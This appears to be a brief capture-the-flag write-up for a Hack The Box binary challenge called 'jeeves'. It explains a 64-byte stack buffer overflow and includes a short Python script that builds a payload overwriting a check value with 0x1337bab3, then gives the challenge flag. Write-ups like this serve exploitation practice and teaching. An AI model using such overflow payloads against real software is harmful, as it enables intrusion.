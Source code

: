 ```yaml
---
title: jeeves
description: buffer overflow
tags: binary, buffer overflow, jeeves
---
```


This challenge was pretty simple. A quick look at the main function revealed that the buffer is 64 bytes, and there was a check for the value 0x1337bab3 at the end of the buffer. It's also important to note that the malloc, open, and read function calls are used to store the value of the flag and are not relevant for the exploit itself. 

```python 
buf_size = 64
# 1337bab3
payload = b'A' * 60 + b'\xb3\xba\x37\x13\n' 
with open ('payload.hex', 'wb') as f:
	f.write(payload)
```

<img src = "/csec-writeups/hackthebox/htb-binary/jeeves.png" />

The flag is HTB{w3lc0me\_t0\_lAnd\_0f\_pwn\_&\_pa1n!}.